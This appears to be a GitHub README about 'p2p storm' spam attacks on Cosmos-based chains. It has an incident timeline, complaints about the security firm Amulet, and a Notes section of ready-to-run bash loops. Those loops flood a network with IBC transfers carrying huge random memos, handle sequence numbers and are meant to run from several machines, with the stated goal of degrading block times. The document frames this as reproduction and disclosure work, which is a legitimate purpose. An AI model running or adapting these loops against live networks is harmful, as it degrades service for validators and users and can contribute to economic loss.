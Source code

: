 # Spammy

## Timeline

* 2021, Sept 
  * Issue first noticed on sentinel
    * [validator chat logs](./sentinel-evidence/sentinelvalidatortg/) 10/15/2021-12/15/2021
* 2022, May 
  * Issue occurs on Luna Classic, accelerating the loss of billions in user funds
  * Today, notably, Luna2 has a block size of 1MB and Terraform Labs confirmed that it is due to this
* 2023, August 15 
  * Issue occurs on Stride and Notional begins to investigate with suport from a broad group of teams.
* 2023, Sept 21
  * 8:01am - Jacob Gadikian adds Jessy Irwin to "invalid block parts" channel
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695272490812409
  * 8:54am - Jessy Irwin leaves "invalid block parts" channel without saying a word
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695275679442249
  * 9:08am - Amulet subtweets this
    * https://x.com/amuletdotdev/status/1704739436335083941?s=20 
* 2023, Sept 25 
  * Notional Labs reproduces the issue on the cosmos hub replicated security testnet with the explicit approval of Hypha
* 2023, Sept 26
  * Notional labs has accelerated the attack
  * RS testnet blocks last 38 seconds each
  * Notional labs discontinues the attack on the RS testnet
* 2023, Sept 27
  * The network continues to experience degraded performance
  * Validator mempools remain [full](./mempoolcryptocrew.json) 
  * Block times are stil [7.9 seconds on average](./screenshots/hub-testnet/current-09-27_19-55-05.jpg), representing a service degredation of 33%
  * Full validator mempools could reduce access to the network for users
  * Network hasn't been attacked for over 18 hours
* 2023, Sept 28 7:16PM CET - amulet announces a low severity security issue with comet, likely because they've not got full context on the issue
  * https://x.com/amuletdotdev/status/1707429071213511090
  * https://github.com/cometbft/cometbft/security/advisories/GHSA-hq58-p9mv-338c 
* 2023, Sept 29 2:14PM CET
  * Cosmos hub replicated security testnet continues to have degraded performance due to gossiping of invalid block parts, logs below.
* 2023, Sept 30:
  * Video One: (DM Jacob for access)
  * Video Two: (DM Jacob for access)
 

It is my strong belief that Amulet does not understand the nature of the situation because they've failed to communicate with the numerous teams involved.  If they were to even just sync the cosmos hub replicated security testnet, they would immediately see that it is still suffering from the previous attack. 

Amulet seems to have not understood that there are numerous issues at play, despite being in possession of this report:

https://docs.google.com/document/d/1oCjsVYMaV77etxOEbDxh58vkAQaXf7RAkhXvF_8GYis/edit




## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been [reproduced](./REPRODUCITON.md)






## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733





